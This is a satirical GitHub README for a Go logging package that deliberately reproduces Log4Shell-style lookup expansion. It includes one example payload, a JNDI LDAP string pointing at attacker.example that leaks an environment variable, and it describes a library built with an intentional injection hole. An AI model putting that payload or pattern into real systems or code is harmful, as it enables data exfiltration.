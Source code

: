 # an irresponsibly bad logging library

Is [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) making you feel left out as a Go programmer?

Fear not. We can fix that.

I wouldn't use this package, but if you want to...

```go
package main

import "github.com/bradfitz/jndi"

var logger = jndi.NewLogger()

func main() {
	//...
}

func handleSomeTraffic(r *request) {
        logger.Printf("got request from %s", r.URL.Path)
}
```

Congrats, the user actually wrote `${jndi:ldap://attacker.example/${env:${lower:u}ser}}` and
the logger expanded your environment variable and sent it over the network
as a side-effect of logging.

## Inspiration

I saw https://twitter.com/_StaticFlow_/status/1469358229767475205 and thought it'd
be fun to write an expander while I was bored, stuck in transit.

## Bugs

This package is incomplete. log4j actually does a bunch more:

* https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution
* https://logging.apache.org/log4j/2.x/manual/lookups.html

Patches welcome to help flesh this package out. We've got some
catching up to do.

## Apologies

In case you're seeing this on GitHub and not via Twitter, I acknowledged
that this is questionable taste: https://twitter.com/bradfitz/status/1469523985998118925

In general I believe in the whole `#hugops` thing. I had a CVE filed against
my own code just the day before: https://twitter.com/bradfitz/status/1469015417679081472

It happens. I joke to cope.

